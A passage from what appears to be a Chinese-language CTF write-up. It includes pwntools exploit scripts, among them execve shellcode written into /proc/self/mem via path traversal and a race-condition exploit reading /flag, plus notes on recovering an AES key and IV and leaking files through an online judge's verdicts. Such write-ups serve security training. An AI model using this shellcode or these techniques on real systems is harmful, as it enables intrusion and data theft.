 ```python
    p.sendlineafter(b">> ", b"1")
    p.sendline(b"../proc/self/mem")
    p.sendline(str(0x5b9a10+off).encode())
    p.sendline(base64.b64encode(b'jhH\xb8/bin///sPH\x89\xe7hri\x01\x01\x814$\x01\x01\x01\x011\xf6Vj\x08^H\x01\xe6VH\x89\xe61\xd2j;X\x0f\x05'))
    p.interactive()
```

### 问卷
问卷

### nan's analysis
图片..没什么用  
压缩包，有密码，但其实就是删了root密码的shell，带回车..也没什么用   
唯一有用的是FTP的密码，是AES的key  
iv猜了好久，最后用UTF8的16个0搞出来看起来很对的字符，但长度不对  
然后用0504重复4次做IV得到了正确的root密码   
![picture 2](/img/62c4fcd2c824c2a2a291024ddb806bff61384996d9932c3438ad0ea23ed69bc3.png)  

shell的位置ls -la对比几下就找到了  
![picture 3](/img/2734950ab79fbdc79176de2c46bc626a49f1850ec29d20833153789aa65ddf10.png)  

## PWN
### work_pwn
有一秒钟的时间等待线程，在一秒之内改全局变量就行了  
```python
from pwn import *

p = remote("39.105.171.73", 18791)

context.log_level = 'debug'
p.sendlineafter(b">>>", b"3")
p.sendlineafter(b"###", b"1")
p.sendlineafter(b">>>", b"1")
p.sendlineafter(b"///", b"1")
p.sendlineafter(b" :", b"/flag")
p.sendlineafter(b"Leaving a message :", b"1")
while True:
    p.recv()
```

### online_judge
没有执行权限，文件系统只读  
二分可以偷东西出来（AC, WA)  
一开始不知道`/flag`是目录，痛失一血  
打了一堆东西出来，甚至把环境变量都偷了出来  
```python
import os
import sys
import requests

host, port = '47.104.129.38', 10101
base_url = f'http://{host}:{port}'
token_url = f'{base_url}/getToken'
judge_url = f'{base_url}/judge'


def getToken():
    result = requests.post(token_url).json()
    assert not result['error'], "System error"
    return result['data']['token']
```